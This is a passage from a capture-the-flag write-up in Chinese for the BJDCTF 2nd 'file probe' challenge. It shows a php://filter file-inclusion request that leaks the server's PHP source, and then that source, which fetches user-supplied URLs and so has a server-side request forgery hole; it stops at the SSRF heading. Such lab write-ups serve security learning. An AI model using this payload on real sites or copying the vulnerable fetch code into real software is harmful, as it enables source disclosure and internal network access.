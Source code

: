 





## [BJDCTF 2nd]文件探测

知识点：

1. 文件包含
2. SSRF
3. session伪造



1.文件包含

```
home.php?file=php://filter/convert.base64-encode/resource=system
```



```php
<?php

$filter1 = '/^http:\/\/127\.0\.0\.1\//i';
$filter2 = '/.?f.?l.?a.?g.?/i';


if (isset($_POST['q1']) && isset($_POST['q2']) && isset($_POST['q3']) ) {
    $url = $_POST['q2'].".y1ng.txt";
    $method = $_POST['q3'];

    $str1 = "~$ python fuck.py -u \"".$url ."\" -M $method -U y1ng -P admin123123 --neglect-negative --debug --hint=xiangdemei<br>";

    echo $str1;

    if (!preg_match($filter1, $url) ){
        die($str2);
    }
    if (preg_match($filter2, $url)) {
        die($str3);
    }
    if (!preg_match('/^GET/i', $method) && !preg_match('/^POST/i', $method)) {
        die($str4);
    }
    $detect = @file_get_contents($url, false);
    print(sprintf("$url method&content_size:$method%d", $detect));
}

?>
```



2.SSRF
